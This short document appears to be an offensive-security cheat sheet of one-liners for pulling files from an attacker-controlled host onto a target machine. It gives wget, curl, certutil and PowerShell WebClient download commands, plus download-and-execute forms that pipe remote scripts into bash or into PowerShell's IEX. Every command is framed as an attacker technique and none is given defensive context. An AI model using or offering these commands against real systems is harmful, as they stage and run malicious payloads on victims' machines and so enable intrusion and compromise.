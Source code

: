 # Methods to download files from attacker

```bash
wget http://$address:$port/$download_path
wget $address:$port/$download_path
curl "http://$address:$port/$download_path" --output $file_name
```

```cmd
certutil -urlcache -split -f "http://$address:$port/$download_path" $file_name
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$address:$port/$download_path','$file_name')"
powershell -c "wget 'http://$address:$port/$download_path' -outfile $file_name" -UseBasicParsing
```

# Methods to download files from attacker and run it immediately 

```bash
wget -qO- "http://$address:$port/$download_path" | bash
curl "http://$address:$port/$download_path" | bash
```

```cmd
powershell IEX (New-Object Net.WebClient).DownloadString(\'http://$address:$port/$download_path\')
```
